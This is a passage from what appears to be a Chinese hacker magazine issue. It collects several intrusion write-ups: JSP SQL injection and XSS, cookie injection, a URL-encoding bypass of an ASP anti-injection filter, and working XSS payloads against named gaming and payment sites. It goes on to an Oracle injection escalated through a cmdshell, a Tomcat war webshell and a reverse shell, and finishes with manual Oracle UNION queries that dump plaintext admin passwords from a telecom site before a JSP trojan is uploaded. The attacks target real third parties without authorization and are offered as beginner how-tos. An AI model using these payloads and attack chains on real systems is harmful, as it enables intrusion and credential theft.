        Statement stmt=conn.createStatement(ResultSet.TYPE_SCROLL_SENSITIVE, ResultSet.CONCUR_UPDATABLE);
        // 创建 statement 对象，并且可以移动记录游标、更新相关信息
        String sql;
        sql="insert into a (zt,username,qq,email,sex,tx,nr) values"
            +"('"+zt+"','"+username+"','"+qq+"','"+email+"','"+sex+"','"+tx+"','"+nr+"')";
        stmt.executeUpdate(sql); // 执行 SQL 语句，返回影响数据库的行数
        stmt.close();
        conn.close();
    }
```

每行代码的意思从注释里面都可以明白，要是在 ASP 里面这里不会发生这样的写法，一般是这样写的：rs("qq")=""，rs.addnew()，rs.update()。JSP 里面也有这样的功能，但是不知道为何很少有人用，我自己试着用了下，但是老报错。

下面让我们来测试下应用，由于数据库是 Access，所以不能做一些更“好”的“坏”事，只能用跨站来测试一下了。提交如下代码：

```html
<script language="javascript">
var i=1;
while(i<11){
  i=i+1;
  window.location.reload();
}
</script>
<iframe src="http://www.baidu.com"></iframe>
```

第一个会使你的页面不停地重载（可不是 10 次啊！），如图 2（编辑注：要是这是一个考试题，估计会有很多人觉得是 10 了，呵呵！）。第二个就是打开百度了，当然 XSS 可以做的远不止这些，本文只是做个例子，重点还在于理解掌握 JSP 里面的常见方法。


图 2 不停地重载当前页面

### 四、总结

其实，到这里我就觉得这个题目有点不合适了。就 SQL injection 来说，注入的是数据库，说什么 ASP、PHP 注入漏洞都是很不切题意的，脚本只是一个很次要的因素，影响我们构造 SQL 语句而已哦。偏题了，下面我说说 JSP 下有关安全性的东西：

- 1. 取得参数传递的值

```text
request.getParameter("para") 是获得参数 para 的值；request.setAttribute("para", value) 是设置参数的值；可以在多个页面之间传递；相应的有 getAttribute(para) 即获得参数的值。request.getParameterNames() 是获得所有参数的名称，request.getRemoteAddr() 是获得远程客户端的 ip 地址。
```

大家可能会问了，怎么没有 get、post、cookie 方式的区别呢？其实是有的，在 servlet（一个 Java 类）里面有 doGet()、doPost() 方法，它们只负责处理相应的方法传递过来的值。在 JSP 页面里面，request.getParameter() 方法是不区分获得方式的，但是不接收 cookie 传过来的值。

- 2. 数据库操作

操作数据库，先要使用 DriverManager.getConnection() 或者数据库连接对象，接下来使用 connection 的方法 createStatement() 创建 statement 对象，或者 PreparedStatement() 创建预编译 statement 对象用于执行 SQL 语句，接着可能会返回 resultset 结果集，或者使用 connection 的 CallableStatement 执行存储过程。

总结可能有点理论化了，但是我相信理解了这些，再去看那些代码就应该很容易明白 JSP 取得请求值、处理数据库的基本流程是怎样的了。而且笔者个人感觉，比那些讲什么实战、几天精通之类的强多了。文章菜了些，但这只是个开始，后面会更加精彩！

> 编辑点评：一个练习作品也很适合初学 JSP 的人来了解 JSP 安全方面的知识，就本文来说，注入、XSS 仍然是每种脚本语言都要面对的问题。当然了，这只是第一篇，很期待作者后面的文章，到底会有哪些令人刮目相看的看点呢？

## 挖掘魅力企业网站管理系统 2007 漏洞

从本文你可以学到：利用工具进行 cookie 注射

大家好，我是 3 少，终于盼到放假了，哎，高三的日子难熬啊，回到家第一件事就是打开电脑到站长之家下源码啦！当然，这份源码没让我失望，还真有漏洞，呵呵……废话不多说，看我的挖掘历程。

我用小旋风架设服务器，然后运行源码程序，发现界面做得还不错，如图 1。黑箱测试一下，发现有防注入，如图 2。

一看到这个界面，我想到了几年前的 cookie 注入，打开此系统的防注入文件，发现如下代码：

```vb
if request.QueryString<>"" then
  Chk_badword=split(Query_BadWord,"|")
  FOR EACH Query_Name IN Request.QueryString
    for i=0 to ubound(Chk_badword)
      If Instr(LCase(request.QueryString(Query_Name)),Chk_badword(i))<>0 Then
        Select Case Err_Message
          Case "1"
            Response.Write "<Script Language=JavaScript>alert('传参错误！参数' & Query_Name & '的值中包含非法字符！\n\n 请不要在参数中出现 and update delete ; insert mid master 等非法字符');window.close();</Script>"
          Case "2"
```

# 新闻练练看


进入后台看看，有文件备份，但是当前文件库不是系统默认的 mdb 数据库时，就发生错误。没办法，点开添加文件后，发现该系统用的是 eWeb 在线编辑器，在 URL 中输入 eWeb 编辑器的地址，显示如图 5。说明不是后台地址改了，就是 eWeb 编辑器的登录页面被删了。而现在大部分网站的 eWeb 编辑器都是被删除了登录页面的，对于这种情况，我们还是有办法得到 WebShell。

```asp
Response.Write "<Script Language=JavaScript>location.href='" & Err_Web & "'</Script>"

Case "3"
    Response.Write "<Script Language=JavaScript>alert('传参错误！参数' & name & '的值中包含非法字符！\n\n请不要在参数中出现：add、update、delete、insert、mid、master 等非法字串！').location.href='" & Err_Web & "';</Script>"
    End Select
    Response.End
End If
NEXT
NEXT
end if
if request.form<>"" then
    Chk_badword=split(Form_badword,"|")
    FOR EACH name IN Request.Form
        for i=0 to ubound(Chk_badword)
            If instr(LCase(request.form(name)),Chk_badword(i))<>0 Then
                Select Case Err_Message
                    Case "1"
                        Response.Write "<Script Language=JavaScript>alert('出错了！表单' & name & '的值中包含非法字符！\n\n请不要在表单中出现：% & * # ( ) 等非法字符！').window.close();</Script>"
                    Case "2"
                        Response.Write "<Script Language=JavaScript>location.href='" & Err_Web & "'</Script>"
                    Case "3"
                        Response.Write "<Script Language=JavaScript>alert('出错了！参数' & name & '的值中包含非法字符！\n\n请不要在表单中出现：% & * # ( ) 等非法字符！').location.href='" & Err_Web & "';</Script>"
                End Select
                Response.End
            End If
        NEXT
    NEXT
end if
```

很明显，没有过滤 Cookie 提交上来的数据！哎，Cookie 注入漏洞已经是很久之前的技术了，用痴寒的刺猬写的注入中转站配置一下，如图 3。

将生成的 ASP 文件放到网站文件夹下，参数处就写 POST 提交值，用啊 D 扫一下，就可以得到账号密码了，如图 4。


先查找一下其他的页面还在不在，对 eWeb 的样式编辑文件 Admin_Style.asp（经测试，大部分 eWeb 的 Admin_Style.asp 功能依然完备），发现没有删除，这样我们就可以直接修改上传文件后缀为 asasp。成功后预览上传的木马文件，顺利拿下 WebShell，如图 6。


本想到网上实战一番，老爸说再不吃饭还玩电脑就打我。没办法，各位到网上搜“砖头文件”拿 WebShell 去吧，我的论坛 ID：边城三少。

编辑点评：这篇文章我想说两点，第一个就是 Cookie 注入的问题。虽然 jmdcw 大哥早把工具写出来了，但熟悉使用的人还是不多。第二点就是作者提到的关于把 eWeb 编辑器的登录页面删除以后，直接访问 Admin_Style.asp 的问题。这得看访问限制，如果真没有限制的话，这次为大家渗透的时候提供了一个思路。嘿嘿，赶快把这个文件放到自己的字典中去吧。


## IT 时空吧网站程序防注入文件分析

■ Dream an end

从本文你可以学到：

- 防注入文件的分析及利用

终于熬到快放寒假的那一天了，这两天不用忙考试，所以就分析一下源码，给心爱的“黑手”写点稿子啦。今天看的源码叫 IT 时空吧网站程序，分析了半天，感觉做得还不错。后台每个文件都有严格的 session 验证，而且上传部分没什么搞头。不过百密一疏的是：它竟然用了一套经典的垃圾防注入文件，一下就让这系统的安全性下降了大半，我们来看看吧。

老习惯，放在虚拟机里，先找个带参数的链接加个撇，看看什么反应……一下报错了，如图 1 所示。


这是典型的防注入文件，于是我在 inc/conn.asp 文件里找到这个防注入文件。可能有的人会问了，看名字这不是数据库连接文件吗？呵呵，是啊，作者把数据库连接文件和防注入文件写在了一起，可能是想：这样做就不会忘了调用防注入文件吧。

```asp
Dim Fy_Url, Fy_a, Fy_x, Fy_Cs(), Fy_Cl, Fy_Ts, Fy_Zx
'—— 定义部份 头 ——
' Fy_Cl = 1  '处理方式：1=提示信息，2=转向页面，3=先提示再转向
' Fy_Zx = "Error.asp"  '出错时转向的页面
'—— 定义部份 尾 ——
On Error Resume Next
Fy_Url=Request.ServerVariables("QUERY_STRING")
Fy_a=split(Fy_Url,"&")
redim Fy_Cs(ubound(Fy_a))
On Error Resume Next
for Fy_x=0 to ubound(Fy_a)
  Fy_Cs(Fy_x) = left(Fy_a(Fy_x), instr(Fy_a(Fy_x), "=")-1) '截取参数
Next
For Fy_x=0 to ubound(Fy_Cs)
  If Fy_Cs(Fy_x)<>"" Then
    '开始检测非法字符
    If instr(LCase(Request(Fy_Cs(Fy_x))), "'")<>0 or instr(LCase(Request(Fy_Cs(Fy_x))), "select")<>0 or instr(LCase(Request(Fy_Cs(Fy_x))), "update")<>0 or instr(LCase(Request(Fy_Cs(Fy_x))), "chr")<>0 or instr(LCase(Request(Fy_Cs(Fy_x))), "delete%20from")<>0 or instr(LCase(Request(Fy_Cs(Fy_x))), "insert")<>0 or instr(LCase(Request(Fy_Cs(Fy_x))), "mid")<>0 or instr(LCase(Request(Fy_Cs(Fy_x))), "master.")<>0 Then
      Select Case Fy_Cl
      Case "1"
        Response.Write "<Script Language=JavaScript>alert('出现错误！参数 ' & Fy_Cs(Fy_x) & ' 的值中包含非法字符串！\n\n请不要在参数中出现：' ,and,select,update,insert,delete,chr 等非法字符！\n\n你想干吗！不要做无聊的事情！谢谢！');window.close();</Script>"
      Case "2"
        Response.Write "<Script Language=JavaScript>location.href='" & Fy_Zx & "'</Script>"
      Case "3"
        Response.Write "<Script Language=JavaScript>alert('出现错误！参数 ...')</Script>"
      End Select
      Response.End
    End If
  End If
Next
```

```asp
"&Fy_Cs(Fy_x)&" 的值中包含非法字符串！\n\n请不要在参数中出现：and, select, update, insert, delete, chr 等非法字符！\n\n你想干吗！不要做无聊的事情！谢谢！');location.href='" & Fy_Zx & "'</Script>"
End Select
Response.End
End If
End If
Next
```

这个防注入文件犯了一个严重的逻辑错误，导致攻击者可以轻松地绕过它。比如我们提交 `http://192.168.231.128/product.asp?id=10'` 时，由于检测到单引号，因此会弹出如图 1 所示的窗口。

如果我们提交 `http://192.168.231.128/product.asp?%69d=10'`（把 i 换成它的 URL 编码形式 `%69`），并不影响原页面的解析，就没有弹出窗口，却出现了如图 2 所示的页面。


这说明把参数变换一下形式就可以成功绕过防注入文件，现在我们就可以用工具跑账号和密码了。是不是很有意思？下面探究一下原因。

首先我们要了解 `Fy_Url=Request.ServerVariables("QUERY_STRING")` 到底是什么意思。其大概意思是说截取 URL 中问号后的字符串并原样输出，我们用事实证明一下，输出代码如下：

```asp
<%
Fy_Url=Request.ServerVariables("QUERY_STRING")
Response.write(Fy_Url)
%>
```

比如 `http://localhost/shiyan.asp?id=10`，这样它截取的就是 `id=10`，并原样输出这个字符串“id=10”，如图 3。


如果我们把 URL 写为 `http://localhost/shiyan.asp?%69d=10`，由于是原样输出，所以并不会把 `%69` 还原为字符 i，而是直接输出“%69d=10”，如图 4。


下面我们再来研究一下 ASP 中 GET 的提交机制，先看两句代码：

```asp
<%
a=request("id")
response.write("这是 id 输出的结果：" + a)
b=request("%69d")
response.write("这是 %69d 输出的结果：" + b)
%>
```

我们提交 `http://localhost/shiyan.asp?id=10`，返回界面如图 5 所示，第二个输出为空。

我们提交 `http://localhost/shiyan.asp?%69d=10`，返回界面如图 6 所示，第二个输出也为空。

这说明 ASP 的 GET 提交中，即使把 URL 中的字符转换成 URL 编码，接收的时候还是只用 `request("id")`，即 `%69` 被转换成了 `i`，所以 `request("%69d")` 接收不到任何参数。


好了，知道这两点就够办了，下面我们来看看这个防注入文件的问题出在哪里。以 `http://192.168.231.128/product.asp?id=10` 为例：

- 1. 程序首先用 `Fy_Url=Request.ServerVariables("QUERY_STRING")` 截取出字符串 `"id=10"`。
- 2. 如果是多个参数的话，以 `&` 为界把所有参数赋值给一个数组，然后对每个数组元素分别做处理。
- 3. 接着用 `Fy_Cs(Fy_x) = left(Fy_a(Fy_x), instr(Fy_a(Fy_x), "=")-1)` 截取出 `"id=10"` 中的 `"id"` 字符。
- 4. 然后进入非法字符检测阶段。用 `instr(LCase(Request(Fy_Cs(Fy_x))), "'")<>0` 来判断是否含有非法字符。其实这里的 `Fy_Cs(Fy_x)` 就是刚才截取出来的字符 `"id"`，带入就是 `instr(LCase(Request("id")), "'")<>0`。
- 5. 最后当然是在 4 中用 `Request("id")` 来接收 `http://192.168.231.128/product.asp?id=10` 这个参数进行判断了。

这样就完成了防注入功能，下面我们把 `http://192.168.231.128/product.asp?id=10` 中的 `id` 改成 `%69d`（`%69d` 为 i 的 URL 编码），即 `http://192.168.231.128/product.asp?%69d=10`，我们再看一下这个检测流程：

- 1. 程序首先用 `Fy_Url=Request.ServerVariables("QUERY_STRING")` 截取出字符串 `"%69d=10"`（原样输出，不转换）。
- 2. 接着用 `Fy_Cs(Fy_x) = left(Fy_a(Fy_x), instr(Fy_a(Fy_x), "=")-1)` 截取出 `%69d=10` 中的 `%69d` 字符。
- 3. 然后进入非法字符检测阶段。用 `instr(LCase(Request(Fy_Cs(Fy_x))), "'")<>0` 来判断是否含有非法字符。其实这里的 `Fy_Cs(Fy_x)` 就是刚才截取出来的字符 `%69d`，带入就是 `instr(LCase(Request("%69d")), "'")<>0`。

看到没？上面的“3”中，`request("%69d")` 是用来接收参数的。但是我刚才说过了，`http://192.168.231.128/product.asp?%69d=10` 中虽然是 `%69d=10`，但是接收的时候还应该是用 `request("id")` 来接收，因为系统会自动地把 `%69d` 改成 `id`。这里“3”中却用了 `request("%69d")` 来接收数据，进行非法检查，结果根本什么都接收不到！因为没有 `%69d` 这个变量。

究其原因，还是由于程序作者对于 ASP 内置对象的了解不透彻。所以我们小菜检测网站的时候发现有防注入文件，可以尝试把某个字符转换成 URL 编码试试看，说不定有意外的收获，清华大学某网站就出现过这样的问题哦。

> **编辑点评：** 这套防注入程序好像是被 lake2 大侠分析过吧，因为使用这套防注入程序的网站实在太多，所以危害很大。不过，现在用这套防注入程序的已经很少了。本文作者自己的分析过程也阐述得清楚，不过还是推荐看一下 lake2 大侠的分析，更为彻底。

## 带问题来投稿 —— 手把手使用 Jsky 和 pangolin 实战高效漏洞挖掘

图 7EraMKVu

从本文可以学到：

- Jsky 的使用
- 利用 Jsky 挖掘漏洞

### 一、小试牛刀

目标是对浩方发动攻击，首先打开 JSky（就是那三个人的图标），主界面如图 1。

简单介绍一下吧：主菜单第一个是文件，就是新建扫描或者载入扫描用的；第二个是扫描，有开始扫描、暂停、停止（建立新扫描是要停止当前扫描的）项，后面的其他 3 个菜单分别是设置、工具和帮助。至于设置，我们使用默认的就可以了！第二排有图标的快捷按钮依次是：新建扫描、打开、保存、退出、开始、暂停、停止，后面 6 个基本上不常用。

Jsky 是带爬虫功能的安全分析工具（官方网站上说目前还在内部测试阶段），如果你上网不是光纤，建议线程设置小点，不然很卡！我一般用它来挖敏感路径、SQL 注入、XSS 都支持，而且不怕挖到别的站上去！

下面就开始行动啦！点击“新建”，弹出如图 2 所示的向导对话框。

一路点击“NEXT”，选择默认的设置就好了，然后回到主界面，点击“扫描”就开始运行。扫描需要很长时间，耐心等待吧，这里我就直接给大家看结果，如图 3。

jSky 给出的地址是：`http://bbs.cga.com.cn:80/list/list_40.asp?bid=40<alert(5201314)>`，用 IE 打开，发现正常。


# 新洞练练看


没有显示攻击警告，说明没有对输入内容过滤！右键查看 HTML 代码，记事本要关掉“自动换行”。搜索 Jsky 的跨站特征关键字：`<alert(5201314)>`，发现 `<alert(5201314)>` 被带入如下语句：

```html
<script src="../navbar.asp?board_id=40<alert(5201314)>&board_id2=&info=帖子列表"></script>
```

这说明漏洞存在，跨站语句被带入了页面！于是把 `<alert(5201314)>` 换成真正的跨站代码：`<script>alert("跨站BY:wlkstc")</script>`，通过 IE 访问也没反应，继续查看 HTML 源码，考虑下既然语句被带入，怎么边截断边执行代码。

一般思路都是使用 `</script>alert("跨站BY:wlkstc")</script>` 就执行成功了，仔细看下 HTML 源码，将如下语句进行修改：

```html
<script src="../navbar.asp?board_id=<script>alert('跨站BY:wlkstc')</script>&board_id2=&info=帖子列表"></script>

修改成：

<script src="../navbar.asp?board_id=></script><script>alert('跨站BY:wlkstc')</script><script>&board_id2=&info=帖子列表"></script>
```

我们来试下这个攻击语句：`></script><script>alert("跨站BY:wlkstc")</script><script>`，加上完整 URL 放到 IE 里，提交 `http://bbs.cga.com.cn:80/list/list_40.asp?bid=></script><script>alert("跨站BY:wlkstc")</script><script>`，显示如图 4。成功了！挖出来了！

### 二、拿官方开刀

Jsky 是好东西吧？好了！直接用它载入浩方官方支付网站 `http://pay.cga.com.cn`，这里直接给出扫描结果，如图 5。是不是看到 SQL INJECTION（SQL 注入很明显啊）？哈哈，现在开始研究吧！

先看跨站，URL 为：`http://pay.cga.com.cn:80/Deposit/SNDA/BankCard/Deposit.aspx?type=dj<alert(5201314)>`，这个触发还是有点难度的，大家可以去看看《精通脚本黑客》这本书。


好了，挖给你们看吧！IE 打开后大吃一惊！是官方充值页面啊！如图 6。

跟论坛漏洞一样，大家来看 HTML 源码，`dj<alert(5201314)>` 被带入如下语句：

```html
[省去无用代码]...
<script type="text/javascript">
var DepositType = "dj<alert(5201314)>";
[省去无用代码]...
```

要触发首先闭合前面的 `<script type="text/javascript">`，所以改成 `var DepositType = ""</script>dj<alert(5201314)>";`，然后带入触发语句 `<script>alert("跨站BY:wlkstc")</script>`，最后跨站触发代码改成：`"</script><script>alert("跨站BY:wlkstc")</script>;<script>`。

用 IE 打开完整 URL：`http://pay.cga.com.cn:80/Deposit/SNDA/BankCard/Deposit.aspx?type="</script><script>alert("跨站BY:wlkstc")</script>;<script>`，显示如图 7。

OK，成功了，页面是 ASPX 的。明显是管理员马虎，没设置好！设置好了的话，ASPX 就可以自动屏蔽掉 XSS。

# 西线无战事

好了，现在看注入，注入是有问题的。我们用这一句吧：

`http://pay.cga.com.cn:80/Deposit/SNDA/SndaCard/CardDeposit.aspx?type=dj`，看仔细了，在选择 SQL 的那行点击右键，选择第三个就可以自动载入穿山甲！如图 8。

穿山甲自己弹出来了，没检测到的话换下一个语句：`http://pay.cga.com.cn:80/WebResource.axd?d=rQaD3wmttomLi70yqqr4A2&t=633528665298645504`，如图 9。

穿山甲显示类型为 STRING 字符型，DB 为 MSSQL，但是 NBSI 和啊D都显示不出来，打开页面时也是错误，如果有高手知道就到黑手论坛告诉下我！

希望大家不要到浩方官方站来，你的行为与本人和《黑客手册》无关，自己负责哦！

（本文所涉及的相关对象已经收录在光盘中）

编辑点评：Jsky 很强大，可以作为渗透的辅助工具，平时可以先用工具黑箱找到漏洞，再找到代码分析漏洞的原因。

LCX 赞语：

大家拿到这一期的杂志时，估计春节也快到了，lcx 提前在这里向大家拜个早年。希望去年的服务能够让大家满意。今年我会再接再厉，继续提供更好的文章给大家，让我们读者中的菜鸟变成大虾，让大虾也能有所启发，最终变成大牛，反正今年是牛年，呵呵。

## 一个 Oracle 注点引发的主机沦陷

图 MIAO

### 从本文你可以学到一种用工具入侵 Oracle 的方法

本文坚持以扫盲和浪费《黑客手册》版面为己任，高手飘过……故事发生在某市的公交集团网站，注点的检查直接是啊D完成的，如图 1，不过啊D说不清楚这个是什么数据库。

这里建议大家在检测非 MSSQL 数据库的时候，尝试一下 Pangolin，这个注入工具支持的数据库比较多，如图 2，意料之中的是 JSP+Oracle。

通常拿到 Oracle 注点后，我们就可以读表进后台，进行如同拿 Access 数据库注点一样的操作。这里不研究这个方法，介绍个工具：“Linx Oracle 自动攻击器”，是 Linx 牛牛的作品。

工具：“Linx Oracle 自动攻击器”，是 Linx 牛牛的作品，这里给出原文链接：`http://hi.baidu.com/linx2008/blog/item/0d6a0cf40a74406bdcc4747c.html`。

这个工具是用 PHP 写成的，需要支持 PHP 的 Web 环境。

这里介绍这个工具的原因主要是它能让你不走寻常路，呵呵……

如图 3，这是工具界面，填入网址并选择数值型注入，然后点击“测试 UTL_HTTP.request”这个按钮，这个主要是检测一下程序能不能收到注入的返回信息，如图 4。

有时候 Oracle 服务器在内网禁止外联的话，我们是不能用这个工具这样搞的，至少我们是看不到回显的。我们继续，注意图 5，大家是不是看到“运行命令”、“读取文件”两个操作项并跃跃欲试了？现在是不可以的。

首先点击上面三个按钮中最后一个键：“创建 sys.LinxRunCMD()、sys.LinxReadFile() 函数”，原因是因为这两个操作功能项需要我们先创建一个函数来实现的，具体原理大家可以去作者的 BLOG 上看一下，这里不赘述。

点下这个键后会出现如图 6 的页面，一直点那个“下一步”到结束为止，OK，函数创建完了，我们来享受一下这个工具给我们带来的快感吧！如图 7、图 8。

因为这次获取 cmdshell 的过程主要是利用的 Oracle 使用 Java 做存储过程，所以我猜测这个 cmdshell 的权限是继承 Oracle 的权限。

我们这个故事里，获得的这个 cmdshell 连 `net user` 都不能用，不过能用 `dir`，很匪夷所思，请了解的高手指教一下。

如图 9，我们从 Web 的报错信息可以看出这个网站的 JSP 环境是用 Tomcat 搭建的。我们继续在 cmdshell 里 `dir`，最后找到了 Tomcat 的路径为：“f:\Tomcat41”。Tomcat 是一个很优秀的 JSP 环境搭建软件，支持通过 Tomcat 发布 Java 资源包，如图 10，这个就是它的后台登录界面。

Tomcat 的用户配置文件位置是：“f:\Tomcat41\conf\tomcat-users.xml”。我们用 Oracle 注入攻击器的文件读取功能读取这个文件，如图 11、图 12。

```xml
<?xml version="1.0" encoding="utf-8"?>
<tomcat-users>
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <role rolename="manager"/>
  <role rolename="admin"/>
  <user username="tomcat" password="tomcat" roles="tomcat"/>
  <user username="role1" password="tomcat" roles="role1"/>
  <user username="both" password="tomcat" roles="tomcat,role1"/>
  <user username="***" password="***" roles="admin,manager"/>
</tomcat-users>
```

Tomcat 的后台是支持 Java 资源包的上传和发布的，这个资源包其实也就是用 Java 压缩的一个压缩包，后缀是 war。很多人不清楚这个包是怎么来的，这里我啰嗦一点，用幻影旅团的 jspshell 举例子做一个，命令格式如图 13。这个打包过程需要本机安装 Java 的 JDK。

上传之后我们得到了一个 JSP 的 shell，它继承了 Tomcat 的权限，因为默认安装的时候 Tomcat 是注册服务启动的，所以这个 jsp webshell 从 Tomcat 那里继承来的系统权限。现在执行命令已经不成问题，之后传门后门反弹回来一个 shell，这都是一些技术含量不是很高的活，甩一张图来收尾吧，如图 14。

有需要交流的朋友可以在《黑客手册》论坛发短信给我，我的 ID 是 MIAO，借宝地广告一下，祝家人和老婆新年快乐。

> 【本文所涉及的相关工具 oracle.php 已收录在本期光盘】

**编辑点评：** 注入从 MSSQL 开始，接着 MySQL 也被大家研究透了，现在的方向是 Oracle 了。以前 Oracle 只是猜解一下表名，现在连命令都可以很方便地执行了，相信随着研究的人越多，研究水平不断提高，好的工具也会不断出现的。

## 渗透 XXXX

### 从本文你可以学习到 ORACLE 手工注入的方法

在夜枫兄弟的邀请下，我们对中国 X 通网站进行了一次安全渗透测试，下面将渗透测试的过程详细地写出来，以供新手朋友学习。水平还停留在完全依赖黑客工具入侵的朋友可要努力了。

渗透之前的信息刺探是少不了的，但是我这里就不用大型黑客扫描软件，因为大型扫描软件发送大量的数据包，容易阻塞网络，有时候要视情况而定。

我们直接从 Web 系统下手，打开 X 通的站点，一看程序是 JSP 的。意料之内，因为很多大型站点都爱用 JSP 构架。打开谷歌搜索引擎，收集该站的动态页面，然后逐个测试每个动态连接，看看是否存在注入漏洞。

经过我的仔细检测终于有所发现，城市专栏的地址提交一个单引号立即报错了。然后用经典的 `and 1=1` 测试，返回正常，如图 1；用 `and 1=2` 返回不正常，的确存在注射漏洞。

根据平时的入侵经验，这种系统的后台应该不是小型的数据库，极有可能是传说中的 ORACLE 数据库。Dual 这个表是 ORACLE 数据库特有的，我们来看下它是否存在，如果存在就说明数据库为 ORACLE。

```sql
And 0<>(select count(*) from dual)
```

提交了正常页面，如图 2。

数据库现在已经明确了，现在我们来猜解字段数量。提交“order by 1--”，返回正常。继续改变数字进行提交，当提交到“order by 7--”时返回不正常了，“order by 6--”是正常的，则说明字段数量为 6 个。现在我们构造查询语句：“and 1=1 union select null, null, null, null, null, null from dual--”。

有的朋友可能会问，为啥不用 1,2,3,4,5,6 呢？因为 ORACLE 数据库是不自动匹配数据类型的，而 null 可以匹配任意数据类型，所以这样提交不会报错。

我们提交以上语句后返回了正常页面，现在来检测当前字段的数据类型。我们在 null 的前后加上 `''` 引号，如果返回正常则说明该字段为字符型，如果返回错误则有可能是数字型。如果不是数字型，那么就是其他类型了。

经过我的测试，在第 2、4、6 位置加上单引号均返回正常页面，说明这几个字段是字符型的。提交的语句为：“and 1=1 union select null,'null',null,'null',null,'null' from dual--”，如图 3。

现在把没用单引号括起来的 null 换成对应的数字提交：“and 1=2 union select 1,'null',3,'null',5,'null' from dual--”，如图 4。

图 4 中显示了两个 null，现在我们把所有的 null 都换成对应的数字，提交：“and 1=2 union select 1,'2',3,'4',5,'6' from dual--”，如图 5。

终于出现了数字 2，等下用它爆我们想要的数据。现在来爆下 ORACLE 数据库的版本，把数字 2 替换成 `((select banner from sys.v_$version where rownum=1))`，完整语句为：“and 1=2 union select 1,(select banner from sys.v_$version where rownum=1),3,'4',5,'6' from dual--”，如图 6。

接着来爆当前连接的用户名，把数字 2 替换为：`(select SYS_CONTEXT('USERENV','CURRENT_USER') from dual)`，完整语句为：“and 1=2 union select 1,(select SYS_CONTEXT('USERENV','CURRENT_USER') from dual),3,'4',5,'6' from dual--”，爆出当前连接用户为 CHINAUNICOM，如图 7。

我们继续爆操作系统的版本，替换语句：`(select member from v$logfile where rownum=1)`，完整语句为：“and 1=2 union select 1,(select member from v$logfile where rownum=1),3,'4',5,'6' from dual--”。根据系统的路径特征显示，该系统不是 WINDOWS 系统，如图 8。

现在我们来猜下管理员的表名，提交 `(select count(*) from admin)`，完整语句为：“and 1=2 union select 1,(select count(*) from admin),3,'4',5,'6' from dual--”，返回错误。把 admin 换成 user、manage、manager、admin_user 等均返回错误，说明不是常规的表名。

既然我们常规猜解不成，那就把数据库中的所有表都爆出来吧，来见识下 ORACLE 的强大之处。提交语句：“and 1=2 union select 1,TABLE_NAME,3,'4',5,'6' from USER_TABLES--”，成功爆出表名，如图 9。

一下爆出了几十个表，我们找找看有哪些敏感的字段，主要是找出管理密码存放的字段。语句为：“and 1=2 union select 1,COLUMN_NAME,3,'4',5,'6' from COLS where TABLE_NAME=要爆的表名--”，我们来爆一下 T_USER 表中的字段，如图 10。

结果发现管理表不是那个，我们继续挨着尝试，直到发现是 UNICOM_USER 这个表。接着爆出该表所有的管理用户，语句为：“and 1=2 union select 1,NAME,3,'4',5,'6' from UNICOM_USER--”，如图 11。

再用语句“and 1=2 union select 1,PASSWORD,3,'4',5,'6' from UNICOM_USER--”爆出所有管理密码，密码为明文，如图 12。

**密码已经搞到，现在我们来找下后台。** 在地址后面输入 manage，立即跑出了一个管理登录页面，使用得到的密码成功登录，如图 13。

现在我们来夺取 WEBSHELL 权限，点击“文章管理”→“增加新闻”，在“上传附件”那选择一个 JSP 的脚本木马，点击“提交”马上弹出一个对话框，提示：请选择信息类型！

```html
<html>
<head>
<title>...</title>
<script language="javascript">
function check(){
    if(document.all.dqtype.value=='' || document.all.dqtype.value=='-1'){
        alert('请选择信息类型');
        return false;
    }
    ...
}
</script>
<style type="text/css">
body {
    margin-left: 6px;
    margin-top: 0px;
    margin-right: 0px;
    margin-bottom: 0px;
}
</style>
</head>
<body>
...
</body>
</html>
```

我明明是选择了的啊！？换了一个图片上传，成功，看来是做了验证。查看网页源代码，发现做了本地验证。本地验证很好绕过，这里我给出两个绕过的办法：

- 1. 保存这段代码为 HTML 文件，修改验证代码，或者删除验证代码；然后把提交的路径换为网站的路径。
- 2. 把提交脚本路径改成 JPG 上传并抓包，在抓到的数据包中修改上传文件名的后缀 JPG 为 JSP，然后用 NC 提交。

那我们就使用第一种办法，第二种方法比较麻烦一点。我们在上传的页面点击右键查看源代码，复制代码到一个文本文件中，把文件扩展名修改为 HTML。接着把禁止上传的文件类型改成其他的，当然，删除禁止上传的文件类型也可以，然后把提交的路径改成网站的路径。我的修改如图 14，大家可以参考一下。

修改完后用 IE 打开，本地选择一个 JSP 木马上传，提示上传成功，得到 WEBSHELL 的地址，如图 15。

通过 `uname` 命令查看该系统的信息，得知该系统为 SUN OS，内核版本为 5.9！此次渗透就此一段落了，希望本文能对新手朋友有所帮助，如对本文有任何问题和建议，请在《非安全》官方论坛或者岁月联盟找我交流意见，谢谢！

> 【本文中所涉及的相关工具及程序 shell.jsp 已经收录到本期光盘】

**编辑点评：**
很详细的一篇手工注入 ORACLE 的文章，新手应当能看懂并可以操作。至于原理也是很简单，大家从 php+mysql 注入上就应当可以了解，大同小异的。

## 渗透 XX 信息安全网

晓华[岁月联盟&S.C.T&T.S.T]

### 本篇文章写的是手工入侵 php+mysql 的方法

一日在网上搜索资料，不小心来到国内三家大型杀毒软件公司之一的 XX 杀毒软件网站。该公司产品在国内来说口碑还是不错的，有很多人使用，尤其是个人用户。出于平时对信息安全的兴趣和爱好，同时我也是信息安全专业的学生，于是对 XX 信息安全网进行了一次渗透测试，过程还是很艰难的。

渗透开始之前，启动平时比较稳定的国外 VPN，安全第一嘛。首先使用百度和谷歌搜索引擎进行基本的信息收集，发现站点 Web 系统是 PHP 程序做的，那么后台数据库应该使用的是 MySQL 的数据库，因为他们是黄金搭档嘛。

由于我没有动用大型的扫描软件进行扫描，操作系统暂时无法得知，像这样的服务器最好别动用大型扫描软件，说不定人家安个入侵检测系统或者放个蜜罐等着你进套。

在旁边查询网站时总载入网站地址进行查询，发现该服务器没有绑定其他的站点，意味着是独立服务器的渗透，难度有点大哦。于是我利用刚才搜索引擎收集到的地址链接，找找动态页面，如果程序没有严格过滤好参数，就会导致严重的注入漏洞。

经过我的耐心查找和筛选，找到一个有问题的页面，该页面是新闻发布的页面，提交一个单引号就出错了，如图 1。

继续提交 `/**/and/**/1=1/*`，返回正常页面，提交 `/**/and/**/1=3/*` 则返回了错误页面，这是典型的注入漏洞，如图 2。

手工搞真的很累，于是我利用现成的工具来代替。打开 CASI 4.0 PRO 版本帮助，提示无法注入，于是又打开 HDSI 填上关键字进行操作，也无法注入！再使用强悍的穿山甲注入软件，居然也未果！厉害！尝试了常用的几款 PHP 注入软件都无功而返，看来工具对它是无能为力了。

不能啥时候都靠工具，工具很多时候都不可靠，还

